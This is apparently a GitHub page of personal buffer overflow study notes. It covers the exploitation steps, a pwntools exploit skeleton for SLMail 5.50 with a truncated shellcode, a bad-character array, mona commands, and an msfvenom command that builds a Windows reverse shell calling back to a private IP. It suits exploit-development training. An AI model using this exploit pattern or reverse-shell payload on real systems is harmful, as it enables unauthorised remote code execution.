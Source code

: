 # Buffer Overflow Notes

## General Notes

#### 1. Generic process
1. Determine vulnerability via fuzzing or code review
2. Demonstrate crash in debugger
3. Review crash details, see state of registers for potential placement of exploit code.  
- Example: Is the EAX register pointing to any location where the user can place input? (JMP EAX)
4. Determine offset
5. Determine bad characters
6. Find jmp/call instruction
7. Sanity check with interrupts
8. Construct shellcode
9. Exploit
  
#### 2. Useful instructions:
| Instruction        | Use                                          |
| ------------------ |:--------------------------------------------:|
| JMP ESP (0xFFE4)   | Jump to the stack pointer to begin execution |
| CALL ESP (0xFFD4)  | Push ESP onto stack and then jump to execute |
| INT3 (0xCC)        | Halt execution                               |
  
Can check what instructions are using `msf-nasm-shell`.

#### 3. Typical pwntools exploit structure
Taken from SLMail 5.50 exploit.
```python
io = start()

jmpesp = '\x8f\x35\x4a\x5f'

shellcode =  ""
shellcode += "\xd9\xc0\xba\x14\xf9\xdc\xcf\xd9\x74\x24\xf4\x5b\x33" # etc

exploit = 'A' * 2606 + jmpesp + '\x90' * 32 + shellcode

info(io.recv(4096))
io.sendline('USER jack')
info(io.recv(4096))
io.sendline(f'PASS {exploit}')
info(io.recv(4096))
```

#### 4. Bad bytes array
```python
chars = ""
chars += "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
chars += "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
chars += "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
chars += "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
chars += "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
chars += "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
chars += "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
chars += "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
1. Start with full set
2. Check dump and see what's missing
3. Remove it and run again until entire string makes it through intact.

## Windows Exploitation
#### Immunity Debugger and Mona.py
- Mona: https://github.com/corelan/mona

#### Mona Commands
1. Search for libraries
```
!mona modules
```
2. Searching for JMP ESP
```
!mona find -s "\xFF\xE4" -m essfunc.dll
```
**Reminder: Any chosen address which goes into an exploit must not have bad characters**
  
#### MSFVenom payloads
1. Reverse shell TCP (unstaged) example
```bash
msfvenom --arch x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.34.138 LPORT=9999 --var-name shellcode -b '\x00' -f python
```

## Linux Exploitation